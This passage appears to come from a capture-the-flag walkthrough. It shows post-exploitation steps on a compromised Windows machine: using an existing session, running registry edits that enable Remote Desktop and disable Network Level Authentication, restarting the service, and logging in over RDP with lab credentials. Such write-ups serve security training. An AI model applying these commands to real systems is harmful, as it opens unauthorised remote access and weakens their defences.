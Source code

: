 Type in `sessions -i 1` to interact with this session, and
then elevate to a normal Windows command shell using `shell`, as shown
above.

You now have command line access and can enable RDP with the following
commands.

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

![](./img/going-the-distance-image9.png)

This should be enough to gain access, but just in case, we will also disable Network Level Authentication (NLA).

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```

![](./img/going-the-distance-image10.png)

Next restart Remote Desktop Service via
PowerShell.

```
powershell
Restart-Service -Force -DisplayName "Remote Desktop Services"
```

![](./img/going-the-distance-image11.png)

Then connect to the system via RDP with the standard user account creds - `user` \| `tartans` - to continue on with the challenge. Open a new terminal tab and enter the following:

```
rdesktop 176.194.115.244
```

